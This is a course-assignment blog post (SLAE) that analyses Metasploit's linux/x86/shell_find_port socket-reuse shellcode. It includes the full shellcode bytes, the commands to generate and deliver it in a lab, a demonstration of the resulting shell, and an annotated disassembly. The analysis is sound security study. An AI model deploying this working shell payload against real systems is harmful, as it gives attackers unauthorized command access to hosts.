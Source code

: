 ```yaml
---
title:  "[SLAE 5] Shell Find Port"
---
```


![Logo](/assets/images/tux-root.png)

## This post is part of the 5th assignment of the [SLAE](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/) course and will analyse a Metasploit socket reuse shellcode: linux/x86/shell_find_port. 
I've started by analysing this payload: 
?
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
# msfpayload linux/x86/shell_find_port S
 
       Name: Linux Command Shell, Find Port Inline
     Module: payload/linux/x86/shell_find_port
    Version: 0
   Platform: Linux
       Arch: x86
Needs Admin: No
 Total size: 169
       Rank: Normal
 
Provided by:
  Ramon de C Valle <rcvalle metasploit.com>
 
Basic options:
Name   Current Setting  Required  Description
----   ---------------  --------  -----------
CPORT  60957            no        The local client port
 
Description:
  Spawn a shell on an established connection
So this is actually a port reuse shellcode: it will search for an already established connection (based on the local client port specified in CPORT variable) and spawn a shell over that connection. Nice! There is a great description of how this payload functions at BlachatLibrary.
Basically to test this payload we'll need:
A server that listens for connections and also executes payloads 
A client that will establish a connection with the server from a fixed local port, then send our metasploit shellcode.
For this we'll use the socket-loader.c and socket-reuse-send.c from BlackhatLibrary.
We'll first compile and start the server: 
?
1
2
$ gcc -Wall -o socket-loader socket-loader.c 
$ ./socket-loader 7001
Then generate the metasploit payload and integrate it into the socket-reuse-send source file: 
?
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
# msfpayload linux/x86/shell_find_port CPORT=4444 C
/*
 * linux/x86/shell_find_port - 62 bytes
 * http://www.metasploit.com
 * VERBOSE=false, CPORT=4444, PrependSetresuid=false, 
 * PrependSetreuid=false, PrependSetuid=false, 
 * PrependSetresgid=false, PrependSetregid=false, 
 * PrependSetgid=false, PrependChrootBreak=false, 
 * AppendExit=false, InitialAutoRunScript=, AutoRunScript=
 */
unsigned char buf[] = 
"\x31\xdb\x53\x89\xe7\x6a\x10\x54\x57\x53\x89\xe1\xb3\x07\xff"
"\x01\x6a\x66\x58\xcd\x80\x66\x81\x7f\x02\x11\x5c\x75\xf1\x5b"
"\x6a\x02\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x50\x68\x2f\x2f\x73"
"\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b"
"\xcd\x80";
 
# gcc -Wall -o socket-reuse-send socket-reuse-send.c 
The syntax for client is as follows:
 ./socket-reuse-send <server_ip> <server_port> <client_ip> <local_client_port>
So the next line will connect to the server listening on port 7001 and send the payload generated earlier from the local port 4444. The payload will then be executed by the server and we'll get a shell: 
?
1
2
3
4
5
# ./socket-reuse-send 192.168.56.1 7001 192.168.56.101 4444
 [*] Connecting to 192.168.56.1
 [*] Sending payload
whoami
liv
So the payload is working as expected, now onto analysis. We'll first try to use the sctest binary from libemu: 
?
1
2
3
# msfpayload linux/x86/shell_find_port CPORT=4444 R > shellcode.bin
$ cat shellcode.bin | /opt/libemu/bin/sctest -vvv -S -s 1000 -G shellcode.dot
$ dot shellcode.dot -T png -o shellcode.png

shell_find_port shellcode

 This way we can get a feeling about how this shellcode is functioning. As we'll see later, there is a final piece missing from the picture, because the sctest emulator is not leaving the loop (marked with red arrows).
We'll use a disassembler to examine all the instructions: 
?
1
$ echo -ne "\x31\xdb\x53\x89\xe7\x6a\x10\x54\x57\x53\x89\xe1\xb3\x07\xff\x01\x6a\x66\x58\xcd\x80\x66\x81\x7f\x02\x11\x5c\x75\xf1\x5b\x6a\x02\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80" | ndisasm -b 32 -
First operation done by a server is, as seen in the picture, to execute getpeername in a loop. This will try to obtain information about a peer connected to a specific file descriptor. 
?
1
int getpeername(int sockfd, struct sockaddr *addr, socklen_t *addrlen);
00000000  31DB              xor ebx,ebx
00000002  53                push ebx
00000003  89E7              mov edi,esp
00000005  6A10              push byte +0x10     ;  addrlen
00000007  54                push esp            ; *addrlen
00000008  57                push edi            ; *addr
00000009  53                push ebx            ; sockfd to search
0000000A  89E1              mov ecx,esp
0000000C  B307              mov bl,0x7          ; int call - SYS_GETPEERNAME (7)
getpeername_loop:
0000000E  FF01              inc dword [ecx]     ; increment fd to be checked
00000010  6A66              push byte +0x66     ; sys_socketcall
00000012  58                pop eax
00000013  CD80              int 0x80
The next part we'll check for a specific condition for any file descriptor found: it will verify the source port and if it's different than 4444 we'll increment the file descriptor and re-execute the loop: 
; 115c(hex) = 4444 (dec)
; compare port
; struct sockaddr_in {
    short            sin_family;   // e.g. AF_INET, AF_INET6
    unsigned short   sin_port;     // e.g. htons(3490)
    struct in_addr   sin_addr;     // see struct in_addr, below
    char             sin_zero[8];  // zero this if you want to
};
00000015  66817F02115C      cmp word [edi+0x2],0x5c11
; if not, jump to getpeername_loop
0000001B  75F1              jnz 0xe
In case a connection was found with the source port equal to 4444, it will execute in a loop 3 dup2 calls, and duplicate stdin, stdout and stderr to the found file descriptor: 
0000001D  5B                pop ebx         ; old fd parameter;  
0000001E  6A02              push byte +0x2  ; 
00000020  59                pop ecx         ; new fd
dup2_loop:
00000021  B03F              mov al,0x3f     ; sys_dup2 syscall
00000023  CD80              int 0x80
00000025  49                dec ecx
00000026  79F9              jns 0x21        ; if not -1, jump to dup2_loop label
The final piece of the shellcode executes /bin/sh: 
00000028  50                push eax
00000029  682F2F7368        push dword 0x68732f2f   ; 'hs//'
0000002E  682F62696E        push dword 0x6e69622f   ; 'nib/'
00000033  89E3              mov ebx,esp     ; '/bin/sh\x00'
00000035  50                push eax
00000036  53                push ebx
00000037  89E1              mov ecx,esp     ; address of the parameters array
00000039  99                cdq
0000003A  B00B              mov al,0xb      ; sys_execve
0000003C  CD80              int 0x80
The complete source file

##

The complete source files and scripts mentioned in this post can be found in my [SLAE Git repository](https://github.com/livz/slae).

**_This blog post has been created for completing the requirements of the [SecurityTube Linux Assembly Expert certification](www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)_**
